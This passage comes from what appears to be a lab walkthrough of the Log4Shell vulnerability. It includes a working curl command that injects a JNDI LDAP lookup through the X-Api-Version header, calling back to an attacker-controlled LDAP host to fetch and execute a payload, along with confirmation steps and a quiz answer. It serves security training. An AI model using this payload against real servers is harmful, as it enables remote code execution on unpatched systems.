 Run the following command in a new terminal window to exploit the webserver;

`curl http://server:8080/ -H 'X-Api-Version:${jndi:ldap://192.168.6.1:1389/o=tomcat}'`

This will make a request to the web server running on `server:8080` and inject `${jndi:ldap://192.168.6.1:1389/o=tomcat}` into the logs via the `X-Api-Version` header, after which the payload served in your LDAP server will be retrieved and executed, thus achieving remote code execution.

- Exploit the target web server
	- Send a GET HTTP request to `http://server:8080/`
	- Specify `X-Api-Version` header with value `${jndi:ldap://192.168.6.1:1389/o=tomcat}`

### Confirmation

You should be able to see the request in the RogueJNDI logs, which confirms that an LDAP query was made back to the Kali machine:

![Screenshot 2024-04-20 071531](https://github.com/acibojbp/RangeForce-Community/assets/164168280/087fa33e-987d-4af2-8feb-33921498b081)

To confirm the `/tmp/rce-proof` file was created on the target server, you should connect to the vulnerable server via SSH from your desktop:

`ssh student@server`

From there, you should be able to list files in `/tmp` with `ls -l /tmp` :

![Screenshot 2024-04-20 071838](https://github.com/acibojbp/RangeForce-Community/assets/164168280/768df246-d57c-46fb-91a5-c229d591148f)

You should also investigate the logs of the vulnerable service with `sudo journalctl -u spring-boot-application` . Note that the exploit string has been substituted in the application logs:


- Connect to the vulnerable server using SSH:
	- Username: **student**
	- Sudo privileges: **yes**
- Elevate privileges to root.
- Investigate the logs of the vulnerable application.
- Answer the question below.

![Screenshot 2024-04-20 072010](https://github.com/acibojbp/RangeForce-Community/assets/164168280/df066582-3307-4a0f-9b4d-2921ef09e850)

![Screenshot 2024-04-20 072128](https://github.com/acibojbp/RangeForce-Community/assets/164168280/f17cacea-c6d5-401f-a242-9dc8ecea0138)

**After successful exploitation, what is the malicious `${jndi:...}` lookup string replaced with?**  
`javax.el.ELProcessor@67481ea1`

## Impact

The fact that the use of Log4j is very widespread makes the vulnerability extremely dangerous. Combined with how easy it is to take advantage of it, it is not difficult to call it the most serious vulnerability of recent years.

"This vulnerability is one of the most serious that I've seen in my entire career, if not the most serious,"

— Jen Easterly, director of the US Cybersecurity and Infrastructure Security Agency (CISA), [said on a phone call shared with CNN](https://edition.cnn.com/2021/12/13/politics/us-warning-software-vulnerability/index.html).
